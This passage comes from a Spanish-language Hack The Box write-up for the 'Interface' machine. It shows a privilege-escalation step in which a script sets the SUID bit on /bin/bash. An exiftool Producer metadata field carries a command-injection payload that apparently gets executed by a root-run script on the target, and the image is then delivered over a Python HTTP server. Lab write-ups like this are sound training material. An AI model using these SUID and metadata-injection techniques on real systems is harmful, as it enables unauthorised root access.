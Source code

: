 ```bash

    fi

done

www-data@interface:/tmp$ 
```

Vamos a crear un archivo para poner la bash SUID 

```bash
www-data@interface:~$ nano pwned.sh
www-data@interface:~$ cat pwned.sh 
#!/bin/bash

chmod u+s /bin/bash
www-data@interface:~$ 
www-data@interface:~$ chmod +x pwned.sh
```

Ahora en nuestra maquina victima necesitaremos una imagen `jpeg` para usar la herramienta `exiftool`

Ahora como vimos en el script esta usando el campo `Producer` y usaremos ese payload para añadir el campo ala ruta del archivo

![](/assets/images/htb-writeup-interface/zi.png)

```bash
┌─[root@parrot]─[/home/miguel7/Hackthebox/Interface/exploits]
└──╼ #exiftool -Producer='a[$(/var/www/pwned.sh>&2)]' xd.jpeg 
    1 image files updated
```

Ahora movemos la imagen ala maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.200 - - [12/May/2023 00:38:32] "GET /xd.jpeg HTTP/1.1" 200 -

```
